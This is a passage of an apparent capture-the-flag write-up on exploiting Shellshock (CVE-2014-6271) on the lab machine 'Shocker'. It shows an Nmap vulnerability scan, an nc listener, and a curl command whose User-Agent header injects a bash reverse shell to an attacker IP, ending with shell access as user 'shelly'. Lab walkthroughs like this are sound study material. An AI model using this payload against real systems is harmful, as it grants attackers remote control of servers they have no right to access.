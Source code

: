 looks like it just contains the linux command `uptime` , nothing special in the file itself

## ShellShock

### Test ShellSchok
using the website mentioned earlier we can Test the web server if it is vulnerable to this attack using Nmap script as follows :

```shell
nmap 10.10.10.56 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 02:08 EDT
Nmap scan report for shocker.htb (10.10.10.56)
Host is up (0.047s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

Nmap done: 1 IP address (1 host up) scanned in 1.00 seconds
```

Nmap stated that it is indeed vulnerable to Shellshock.

### Exploiting ShellShock

we can use this Vulnerability to create a reverse shell .

First start a nc listener :

```shell
nc -lvnp 4444 
```

and run this on another tab 

```shell
 curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.16.2/4444 0>&1' http://10.10.10.56/cgi-bin/user.sh
```

WOW! we landed a reverse shell , using whoami gives us shelly our user name
